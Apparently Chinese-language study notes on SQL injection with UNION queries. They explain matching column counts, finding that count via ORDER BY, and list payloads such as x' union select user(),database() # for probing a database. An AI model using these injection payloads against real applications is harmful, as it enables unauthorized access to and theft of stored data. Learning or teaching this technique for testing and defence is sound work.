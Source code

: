 union联合查询

select name,password from user where id = 1 
union select xx,xx from xx;
注意联合查询的字段数目要和主查询一致，否则不符合sql语法

如何知道系统查询了几列呢？
可以使用order by 1 2 3 4 ...
如果order by 5报错了
那么说明查询了4列

x' order by 2 #

x' union select user(),database() #
x' union select version(),database() #
